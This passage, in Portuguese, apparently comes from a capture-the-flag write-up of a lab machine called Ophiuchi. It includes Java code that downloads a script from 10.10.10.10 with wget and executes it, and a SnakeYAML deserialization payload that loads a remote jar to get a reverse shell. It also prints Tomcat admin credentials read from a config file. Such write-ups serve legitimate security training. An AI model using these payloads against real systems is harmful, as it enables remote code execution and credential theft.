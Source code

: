 ```java
    public AwesomeScriptEngineFactory() {
        try {
            Runtime.getRuntime().exec("wget http://10.10.10.10/payload -O /tmp/exploit.sh");
            Runtime.getRuntime().exec("chmod a+x /tmp/exploit.sh");
            Runtime.getRuntime().exec("bash /tmp/exploit.sh");
        } catch (IOException e) {
            e.printStackTrace();
        }
    }
```

Após modificar a classe, precisamos compilá-la para que seja executada e disponibilizar o arquivo `*.jar` no diretório de onde vamos chamá-lo.

```bash
javac src/artsploit/AwesomeScriptEngineFactory.java
jar -cvf yaml-payload.jar -C src/ .
```

Após compilado, precisamos configurar um HTTP Server com o arquivo payload contendo a nossa instrução para shell reverso e enviar o payload a seguir no formulário web

```java
!!javax.script.ScriptEngineManager [
  !!java.net.URLClassLoader [[
    !!java.net.URL ["http://10.10.10.10/yaml-payload.jar"]
  ]]
]
```

Voilá! temos um shell reverso na máquina! :smile:

```bash
bash-5.0$ hostname && id
ophiuchi
uid=1001(tomcat) gid=1001(tomcat) groups=1001(tomcat)
bash-5.0$
```

## User flag

Iniciamos a enumeração como de costume executando o `linpeas.sh`, onde pudemos identificar os seguintes pontos:

- Execução com a conta de serviço do Tomcat, com a qual temos privilégios de leitura dos arquivos relacionados à configuração do serviço e respectivas logs
- O usuário a ser buscado é o **admin**, único com acesso console à máquina.

Com estas informações, realizado consulta do arquivo `/opt/tomcat/conf/tomcat-users.xml` que possui as credenciais dos usuários do tomcat, para que pudéssemos acessar a console

```xml
<user username="admin" password="whythereisalimit" roles="manager-gui,admin-gui"/>
```

Uma vez que temos as credenciais de administração do Tomcat, foi possível acessar a console de gerenciamento confirmando que a credencial encontrada era válida.
